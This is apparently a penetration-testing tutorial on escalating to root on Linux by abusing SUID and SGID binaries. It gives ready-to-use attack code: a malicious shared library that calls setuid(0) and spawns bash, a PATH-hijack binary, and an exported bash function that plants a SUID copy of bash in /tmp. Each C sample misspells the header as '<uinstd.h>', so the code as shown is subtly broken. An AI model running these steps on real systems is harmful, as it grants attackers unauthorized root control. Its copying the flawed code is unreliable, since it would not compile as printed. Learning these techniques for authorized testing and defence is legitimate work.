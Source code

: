 # Introduction
The Set Owner User ID (SUID) and Set Group ID (SGID) are special permissions which can be attributed to Linux files and folders. If a file has either of those set, then it will be executed with the privileges of the owner / group, respectively, no matter which user actually invoked the command to run the file. 

Therefore, any files which are owned by root and have SUID set will be executed with elevated privileges. Our goal is to hunt down those files and abuse them in order to escalate our privileges. This can be easily done with the following command:

```bash
find / -perm -u=s -type f -user root 2>/dev/null
```

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Finding%20SUID%20Binaries.png)

## Exploiting Misconfigured Common Binaries
You should diligently inspect the list of files returned. Some standard Linux binaries may allow for privilege escalation if they have the SUID bit set for one reason or another. It is useful to go through these binaries check them on [GTFOBins](https://gtfobins.github.io/).

 In the above example, we find that `/bin/systemctl` has the SUID bit set and that it also has an [entry in GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#suid):

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Systemctl%20GTFOBins.png)

By following the instructions, although with slight modifications, we can run commands with escalated privileges:

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Systemctl%20Escalated%20Privileges.png)

## Privilege Escalation via Shared Object Injection
Some binaries may be vulnerable to Shared Object (SO) Injection. This typically stems from misconfigurations where the binaries looks for a specific library in a specific directory, but can't actually find that library. If we have write access to this directory, we can hijack the search for the library by compiling our own malicious library in the place where the original was supposed to be. This is quite similar to [escalating via LD_PRELOAD](Sudo%20Escalation%20via%20LD_PRELOAD.md), but it is a bit more difficult to find and exploit.

You will first need to identify an SUID binary which has misconfigured shared libraries. A lot of the times the binary will refuse to run, saying that it is missing a particular library, however, this is not always the case:

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/suid-so%20Run.png)

It is always good practice to run the programme with `strace`, which will print any attempts of the binary to access libraries:

```bash
strace <binary> 2>&1 | grep -iE "open|access"
```

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/strace%20Library%20Misconfigurations.png)

What stands out in particular is the `/home/user/.config/libcalc.so` library, since `/home/user/.config/` may be a writable directory. It turns out that the directory doesn't even exist, however, we can write to `/home/user/` which means that we can create it.

What now remains is to compile a malicious library into `libcalc.so`.

```cpp
#include <uinstd.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}
```

For older versions of GCC, you may need to use the `_init()` function syntax:

```cpp
#include <uinstd.h>
#include <stdlib.h>

void _init()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}
```

Compile the malicious library:
```bash
gcc -shared -fPIC -o libcalc.so libcalc.c # add -nostartfiles if using _init()
```

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Shared%20Object%20Injection%20Successful.png)

## Privilege Escalation via Path Hijacking
Path Hijacking refers to the deliberate manipulation of environmental variables, most commonly `$PATH`, such that the invocations of programmes in a binary actually refer to malicious binaries and not the intended ones.

This vector requires more sophisticated digging into the internals of an SUID binary, specifically tracking down the different invocations the binary performs. This can commonly be achieved by running `strings` on the binary, but you will probably have to resort to more serious reverse engineering, as well. Specifically, you want to be on the lookout for shell commands which get executed by the SUID binary.

### Hijacking Relative Paths
Relative paths are comparably easy to hijack - they require little other than editing the `$PATH` variable. Once you have identified a shell command within an SUID binary which invokes another programme via a relative path, you can just prepend to the `$PATH` a directory which will contain an executable with the same name as the one originally invoked.

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Start%20Apache%20Relative%20Path.png)

Let's compile our own malicious binary. 

```cpp
#include <uinstd.h>
#include <stdlib.h>

int main()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");

	return 0;
}
```

```bash
gcc -o /tmp/service /tmp/service.c
```

Afterwards, we need to prepend `/tmp` to the `$PATH` variable:
```bash
export PATH=/tmp:$PATH
```

And finally, run the original SUID binary:

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Hijacked%20Relative%20Path.png)

### Hijacking Absolute Paths
Absolute paths require a bit more work to be hijacked. 

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Start%20Apache%20Absolute%20Path.png)

Luckily, bash turns out to be very sophisticated and allows to create functions which have the forward slash (`/`) character in their name. This means that we can create a malicious bash functions with the same name as the absolute path we want to hijack and then our function will be invoked instead of the original programme.

First, create the bash function:
```bash
function <absolute path here>() { cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p; }
```

Next, export the function:
```bash
export -f <absolute path here>
```

Finally, run the original SUID binary:

![](Resources/Images/Abusing%20SUID%20&%20SGID%20Binaries/Hijacked%20Absolute%20Path.png)